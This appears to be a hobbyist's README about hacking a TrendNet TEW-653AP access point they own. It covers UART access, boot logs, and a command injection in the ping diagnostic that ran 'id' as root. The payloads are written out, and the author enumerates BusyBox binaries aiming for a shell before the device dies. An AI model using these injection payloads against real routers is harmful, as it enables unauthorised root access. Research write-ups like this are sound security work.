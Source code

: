 # Trendnet
I found a brand new (still sealed!) TrendNet TEW-653 AP at a local thrift store for $4.99
<img src="https://github.com/maguireja/Trendnet/blob/main/IMG_3809.png?raw=true">

# Locating UART
I found an area on the board that looked like UART, with a multimeter I found what I think is ground, Send and Recieve:
<img src="https://github.com/maguireja/Trendnet/blob/main/IMG_3994.png?raw=true">

# Testing UART
I hooked up my flipper zero and connect like normal, after playing around with different baud rates it seems like to 57600.
```
U-boot Ver:1.0.1.30 2009/10/12


Board: Ralink APSoC DRAM:  32 MB  1*32 MB
============================================ 
ASIC 3052_MP2 (Port5<->None)
Product Name: EAP9550
SDRAM CAS = 3(d1835272) 
============================================ 

Please choose the operation: 
   1: Load system code to SDRAM via TFTP. 

LINUX started...
init started: BusyBox v1.7.5 (2011-06-30 16:53:57 CST)
starting pid 131, tty '/dev/console': '/sbin/config_init'
Config Init version: 1.2.2.98 date: 2011/06/30
starting pid 174, tty '/dev/ttyS1': '/sbin/config_term'
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> cat: can't open '/apps/lib/modules/2.6.21/modulesApp.dep': No such file or directory
ln: /sbin/./apps_init: File exists
sh: cannot create /proc/senao/ip_conntrack_interface: nonexistent directory

```

It seemed like the UART shell was limited. Even though I was looking at a prompt, it didn't respond to common commands:
```
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> help
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> ls
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> ?
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> whoami
************************************************************************
*                                TEW-653AP                             *
************************************************************************
```
I did find an old DD-WRT forum post in which a user suggests you can enter 1,2,4 or 9 at the prompt (2,4 and 9 are hidden options). I tried these options but did not notice any changes:
https://forum.dd-wrt.com/phpBB2/viewtopic.php?t=89254&postdays=0&postorder=asc&start=15

# Command Injection
I noticed on the Tools > Diagnostic menu there was a ping utility, provide an IP address and the AP will attempt to ping the target. This looked like a command injection to me, I played around with it for a bit and was unable to get it to work.

I did notice if I provided a payload such as:
```
192.168.10.10'|id|'
```
Then the AP would continue to ping the target IP, regardless of how many counts were provided. I observed the continous ping in wireshark. This led me to believe there is something interesting happening here.

# UART Logs
While connected to the UART, I continued to test the ping functionality. While providing the following payload:
```
192.168.10.101"$(id)"
```
I noticed the following in the UART console:
```
ping bad address uid=0
```

This confirmed there is in fact a command injection, I can see in the UART console log that the _id_ command did execute. it appears the output from the _id_ command was fed into the ping command.

# Trying for a shell
After confirming the command injection, I wanted to get a shell on the device. I tried many different payloads, but nothing was working and the limited output of the UART console was making it hard to tell what exactly was failing. I thought it would be helpful to know what applets were on this busybox, and if netcat was present at all. So I made a wordlist of all busybox applets from here: https://busybox.net/downloads/BusyBox.html I then used BurpSuite's Intruder to send each applet inside my command injection payload, and logged the UART shell output. I found the following applets installed:
```
cat binaries.txt       
ping: bad address 'sbin/arp'
ping: bad address 'sbin/brctl'
ping: bad address 'sbin/dumpleases'
ping: bad address 'sbin/httpd'
ping: bad address 'sbin/ifconfig'
ping: bad address 'sbin/ifdown'
ping: bad address 'sbin/ifup'
ping: bad address 'sbin/init'
ping: bad address 'sbin/insmod'
ping: bad address 'sbin/lsmod'
ping: bad address 'sbin/modprobe'
ping: bad address 'sbin/reset'
ping: bad address 'sbin/rmmod'
ping: bad address 'sbin/route'
ping: bad address 'sbin/sysctl'
ping: bad address 'sbin/syslogd'
ping: bad address 'sbin/udhcpc'
ping: bad address 'sbin/udhcpd'
ping: bad address 'sbin/vconfig'
ping: bad address 'sbin/wget'
ping: bad address 'bin/ash'
ping: bad address 'bin/ash'
ping: bad address 'bin/cat'
ping: bad address 'bin/chmod'
ping: bad address 'bin/cp'
ping: bad address 'bin/date'
ping: bad address 'bin/df'
ping: bad address 'bin/dmesg'
ping: bad address 'bin/echo'
ping: bad address 'bin/grep'
ping: bad address 'bin/ip'
ping: bad address 'bin/kill'
ping: bad address 'bin/ln'
ping: bad address 'bin/ls'
ping: bad address 'bin/mkdir'
ping: bad address 'bin/mknod'
ping: bad address 'bin/mv'
ping: bad address 'bin/netstat'
ping: bad address 'bin/nice'
ping: bad address 'bin/pidof'
ping: bad address 'bin/ping'
ping: bad address 'bin/ps'
ping: bad address 'bin/pwd'
ping: bad address 'bin/rm'
ping: bad address 'bin/sh'
ping: bad address 'bin/sleep'
ping: bad address 'bin/stty'
ping: bad address 'bin/sync'
ping: bad address 'bin/touch'
ping: bad address 'bin/true'
ping: bad address 'bin/umount'
ping: bad address 'bin/uname'
```
It doesn't look like theres much to work with, and nc missing so any netcat shells won't work.

# Bring my own binary?
I noticed wget is present, and I confirmed it worked by using the command injection to download a txt file from my laptop. So I thought maybe I can just compile a version of netcat for the AP, then use wget to retrieve it.  While looking at the board I noticed there was a piece of metal (a heatsink?) on top of the processor:
<img src="https://github.com/maguireja/Trendnet/blob/main/IMG_3957%201.png?raw=true">

So I thought, I'll just pop that off so I can see specifically what the processor is. I did that and found it was a RaLink (which should have been obvious because I saw Ralink the UART prompt previously):
<img src="https://github.com/maguireja/Trendnet/blob/main/IMG_3999.png?raw=true">

# Bummer
With the specific model number for the processor I did some research. It's a MIPS processor, and so any binary I compile would need to be MIPS. This led me down a rabbit hole researching cross compiling, and trying to find shells or mips backdoors other people have created. I did find an interesting one here that was created for a trendnet switch: https://osandamalith.com/2015/10/11/how-to-turn-your-switch-into-a-snitch/

I was excited to try this out, I started by compiling a simple hello world binary. I got everything ready and then..... 

The AP no longer powers up. Previously on boot, LEDs would flash, I don't see those anymore. I don't see it broadcasting it's default SSID, and I get nothing on the UART port. When I test with my multimeter, I don't see any voltage coming from the TX pin on the UART.

Womp Womp

I don't know what I did wrong, I didn't think removing the heatsink would break the AP, but I guess it did. That's all for now, maybe I can find another AP in the future.

